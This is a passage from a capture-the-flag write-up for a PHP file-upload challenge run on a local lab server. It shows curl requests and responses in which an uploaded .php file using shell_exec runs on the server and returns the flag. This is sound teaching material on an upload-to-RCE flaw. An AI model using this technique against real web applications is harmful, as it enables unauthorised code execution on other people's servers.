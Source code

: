 ```{% raw %}
-----------------------------35851058717958058741374149380--
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce5-001.png)

The "You can download the file here" link has a long hash-like name and serves the file as expected.

```{% raw %}
# curl -v http://127.0.0.1:8085/uploads/df5c94a635fd6feb14aab94e5fd3ed10cdb13b2f0526bb1466c0e12474db93e3.txt
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8085 (#0)
> GET /uploads/df5c94a635fd6feb14aab94e5fd3ed10cdb13b2f0526bb1466c0e12474db93e3.txt HTTP/1.1
> Host: 127.0.0.1:8085
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 01 Nov 2018 03:07:41 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Thu, 01 Nov 2018 03:05:41 GMT
< ETag: "21-57991b1a8fc9e"
< Accept-Ranges: bytes
< Content-Length: 33
< Content-Type: text/plain
< 
what if i'm just a test file :'(
* Connection #0 to host 127.0.0.1 left intact
{% endraw %}```

Bad things can happen when a web application serves user-provided files. This being a PHP application, the first thought should be, 'can I upload a PHP file?' and the second, 'will it execute?'

Modify the request above to use a `.php` filename and replace the file contents with a quick `shell_exec` to `cat` the flag. [OWASP ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) shown here since this is AppSec USA after all.

![RCE Cornucopia](/img/rce-cornucopia/rce5-002.png)

Answer to the first question is yes, we can upload PHP files. But will it execute?

```{% raw %}
# curl -v http://127.0.0.1:8085/uploads/b0d0320f1440a2b9a325ead8338cd45aabc89740b8ea633c7dc4a5c856a6215a.php
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8085 (#0)
> GET /uploads/b0d0320f1440a2b9a325ead8338cd45aabc89740b8ea633c7dc4a5c856a6215a.php HTTP/1.1
> Host: 127.0.0.1:8085
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 01 Nov 2018 03:18:02 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 130
< Content-Type: text/html; charset=UTF-8
< 
flag{RipBoilingWater,YouWillBeMist}
* Connection #0 to host 127.0.0.1 left intact
```